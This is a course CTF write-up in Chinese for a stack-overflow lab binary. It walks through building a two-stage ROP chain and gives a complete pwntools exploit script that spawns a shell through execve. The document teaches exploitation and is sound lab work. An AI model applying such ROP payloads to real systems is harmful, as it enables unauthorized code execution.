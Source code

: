# NIS4355 信息安全综合实践（2）课程writeup

[TOC]

## 1stStep

`NX enabled`：数据段和堆栈不可执行

read函数读入长度为256，超过缓冲区大小，栈溢出

使用ROPgadget工具寻找寄存器地址

```shell
ROPgadget --binary ./1stStep | grep "pop rdi ; ret"
ROPgadget --binary ./1stStep --only "pop|ret"
```

Linux x86_64通常前6个参数通过寄存器
rdi,rsi,rdx,rcx,r8,r9传递，从第7个参数开始在栈上

通过ROP执行Linux 64位程序系统调用

execve(“/bin/sh”, 0, 0) ⇒
1. 使rax 为execve 系统调用号0x3b
2. 使rdi 为”/bin/sh” 字符串地址
3. 使rsi 和rdx 为0
4. syscall指令

考虑将shell指令读入，观察read函数原型

`ssize_t read(int fd, void *buf, size_t count);`

rdi 填充 0	rsi填充bss地址	rdx填入字符串“/bin/sh”长度8

寄存器填充解释

`pop_rdi`：第一次进行read填充，第二次读入bss

`pop_rsi`：第一次填充bss地址，第二次填充0

`pop_rdx`：填充字符串长度

`pop_rax_rdx_rbx`:rax用以读入系统调用指令，其余寄存器填充0

`syscall`：代码中有很多syscall的调用，这里选用调用Linux-time的地址

- 第一次触发漏洞： ROP调用Read函数
- 向可写位置读入“/bin/sh”字符串，通常可以选用bss区域；
- 再次回到漏洞函数
-  第二次触发漏洞：ROP调用execve函数
-  设置rax, rdi, rsi, rdx
- 执行syscall调用 execve("/bin/sh", 0, 0)

exp

```python
from pwn import *
# p = remote('111.186.57.85', 10312)
context.arch = 'amd64'
p = process(["./1stStep"])
# syscall = 0x40046B 0x400412
syscall = 0x43f435
pop_rdi = 0x4016e6
pop_rsi = 0x401807
pop_rdx = 0x4432a6
pop_rax_rdx_rbx = 0x479156
read = 0x43FDF0
bss = 0x6ccc40
vuln = 0x400A6C
p.recvuntil(b'Go explore and exploit here\x1B[0m\n')
payload1 = flat(b'a' * 0x20, b'b' * 8, pop_rdi, 0, pop_rsi, bss, pop_rdx, 8, read, vuln)
p.sendline(payload1)
p.send(b'/bin/sh\x00')
payload2 = flat(b'a' * 0x20, b'b' * 8, pop_rdi, bss, pop_rax_rdx_rbx, 0X3b, 0, 0, pop_rsi, 0, syscall)
p.sendline(payload2)
p.interactive()
```


